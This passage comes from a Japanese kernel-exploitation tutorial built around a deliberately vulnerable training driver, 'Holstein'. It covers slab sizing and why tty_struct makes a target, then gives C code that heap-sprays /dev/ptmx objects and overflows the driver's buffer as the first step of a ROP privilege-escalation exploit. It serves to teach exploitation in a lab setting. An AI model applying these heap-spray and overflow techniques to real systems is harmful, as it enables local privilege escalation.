 次に問題になるのがオブジェクトのサイズです。あらためてHolsteinのソースコードを見ると、確保されるバッファのサイズは0x400であることが分かります。
```c
#define BUFFER_SIZE 0x400
```
0x400はkmalloc-1024に相当します。（システムのslabの情報は`/proc/slabinfo`から見られます。）
したがって、破壊できるオブジェクトも基本的にはサイズ0x400のものになります。攻撃の観点から[使えるオブジェクトをサイズごとにまとめた記事](https://ptr-yudai.hatenablog.com/entry/2020/03/16/165628)を以前書いたので、そちらを参照してください。[^1]

今回のkmalloc-1024では`tty_struct`という構造体が使えそうです。`tty_struct`は[`tty.h`](https://elixir.bootlin.com/linux/v5.15/source/include/linux/tty.h#L143)で定義されており、TTYに関する状態を保持するための構造体です。この構造体のサイズはkmalloc-1024に相当するため、今回の脆弱性で範囲外読み書きができます。構造体のメンバを見てみましょう。
```c
struct tty_struct {
	int	magic;
	struct kref kref;
	struct device *dev;	/* class device or NULL (e.g. ptys, serdev) */
	struct tty_driver *driver;
	const struct tty_operations *ops;
	int index;
    ...
```
ここで`tty_operations`は、そのTTYに対する操作を定義する関数テーブルになっています。
次のようにプログラムから`/dev/ptmx`を開くことでカーネル空間に`tty_struct`が確保されます。
```c
int ptmx = open("/dev/ptmx", O_RDONLY | O_NOCTTY);
```
これに対して`read`, `write`や`ioctl`等の操作を呼び出すと、`tty_operations`に記載された関数ポインタが呼ばれます。

## ROPによるExploit
必要な知識はすべて揃ったので、権限昇格するexploitを書いていきましょう。

### ヒープオーバーフローの確認
まずはgdbを使ってヒープオーバーフローが起きていることを確認しましょう。同時にHeap Sprayも確認するため、次のようなコードを書きました。
```c
int main() {
  int spray[100];
  for (int i = 0; i < 50; i++) {
    spray[i] = open("/dev/ptmx", O_RDONLY | O_NOCTTY);
    if (spray[i] == -1)
      fatal("/dev/ptmx");
  }

  // 周囲にtty_structがある位置に確保させる
  int fd = open("/dev/holstein", O_RDWR);
  if (fd == -1)
    fatal("/dev/holstein");

  for (int i = 50; i < 100; i++) {
    spray[i] = open("/dev/ptmx", O_RDONLY | O_NOCTTY);
    if (spray[i] == -1)
      fatal("/dev/ptmx");
  }

  // Heap Buffer Overflow
  char buf[0x500];
  memset(buf, 'A', 0x500);
  write(fd, buf, 0x500);

  getchar(); // 止める

  close(fd);
  return 0;
}
```

[^1]: オブジェクトのサイズはカーネルのバージョンによって変わる可能性があるので注意しましょう。
[^2]: これはLinuxが提供する双方向リストのポインタです。mutexなどを利用すると作られるためカーネル中の多くのオブジェクトに存在し、ヒープアドレスリークに役立ちます。
[^3]: その変数を使う関数を逆アセンブルしてアドレスを特定する方法もあります。